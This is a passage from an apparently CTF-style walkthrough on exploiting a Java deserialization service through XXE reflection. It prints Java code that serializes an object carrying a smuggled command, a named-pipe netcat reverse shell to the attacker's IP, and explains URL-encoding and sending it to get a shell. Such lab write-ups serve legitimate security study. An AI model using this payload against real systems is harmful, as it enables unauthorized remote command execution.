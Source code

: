 Now, we're able to create a serialized object using the code we got from RPG.java, the only thing we need to do is manipulate the response to make the java code deserialize it. We know that the page is vulnerable to XXE and the hint says, sometimes things that work with post can work with get, with XXE we can reflect anything we send, so if we try sending a request to `/action.php?<xml>[serializedobject]</xml>` we get the serialized object back and as we know, the service running on port 3333 sends our input to the webserver, so if we send `action.php?<xml>[serializedobject]</xml>` as input to the service, the response will be [serializedobject] and it will be deserialized, executing any command we want it to.

So we need to give an object to execute a command in the machine.

First let's make this serialized object, luckily for you (if you don't like java), the code already has a function to serialize objects, so let's use that function.

Lets modify the main function with this:

{% highlight java %}
public static void main(String[] args) {                                                                                                  
        try{                                                                                                                                  
            String str = Serialize.toString( new Action("abc","trying\";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR_VPN_IP] 1234 >/tmp/f;echo \"") );                                                                                                                        
            System.out.println( "abc : " + str );                                                                                                                                                                        
        }catch(Exception e){                                                                                                                  
            System.out.println("aa");                                                                                                         
        }                                                                                                                                     
    }
{% endhighlight %}

Also remove this line import org.apache.commons.io.IOUtils; now compile and run the code to get the serialized object, be aware that the service running on port 3333 uses jdk 1.8.0_251, so if your java version is different it may not work since serialization changed a bit in other versions:

```
$ javac RPG.java
$ java RPG
abc : [base64EncodedObject]
```

Okay, we have the object, now let's send our payload!

So let's setup a netcat listener and then try sending `action.php?<xml>[serializedobject]</xml>` to the service, let's not forget to url encode the payload since some charaters in it can become weird in the url, before trying the payload in the service running in port 3333, try sending to the web server to check if the payload gets reflected correctly.
We get a reverse shell in the machine.

Let's go to our user's home directory, there's a file called info.txt:

```
After getting information from external entities, you saw that one part of the wall was different from the rest, when touching it, it revealed a wooden door without a keyhole.
On the door it is carved the following statement:

              The password is in
              [REDACTED-REGEX]
```
